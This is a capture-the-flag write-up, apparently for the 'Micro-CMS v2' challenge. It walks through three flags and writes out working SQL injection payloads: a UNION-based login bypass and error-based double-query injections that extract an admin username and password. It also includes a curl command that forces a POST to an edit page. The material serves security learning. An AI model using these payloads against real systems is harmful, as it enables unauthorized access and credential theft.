










micro-cms v2

# Micro-CMS
## Flags = 3


## Flag 1/3




Looking at the firt page I noticed the `Create a new page` link clicked it it led to a login page.





First step is usually to check the page source for clues.




No clues.

Next step was to check for sql injection vulnerability.
For the Username and password fiel I used  a single quote `'`
This threw an interesting error.




This is an indication of sql injection.

After trying several inputs I used a hint.


The hint mentioned union.
I used the following inputs.
Username:
```
joey' UNION SELECT "111" as password FROM admins WHERE '1' = '1
```
password:
```
111
```
This worked and opened a  new homepage that had a private page.





The private page had the flag.




## Flag 2/3

Using the hint




Using CURL to force POST instead of get.

```
curl -v -X POST http://34.94.3.143/de93690fd4/page/edit/1
```

 




## Flag 3/3

For this I did a double sql injection.
I tried a couple of inputs for the login. This worked
```
username=foo' OR (select 1 from(select count(*),concat((select (select (SELECT concat(0x7e,0x27,cast(admins.username as char),0x27,0x7e) FROM `level2`.admins LIMIT 0,1) ) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) AND '1' = '1
```

It showed the user name




Username : lizzette

```
username=foo' OR (select 1 from(select count(*),concat((select (select (SELECT concat(0x7e,0x27,cast(admins.password as char),0x27,0x7e) FROM `level2`.admins LIMIT 0,1) ) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) AND '1' = '1

```
Password : katharine

using the username and password I got the last flag




dones


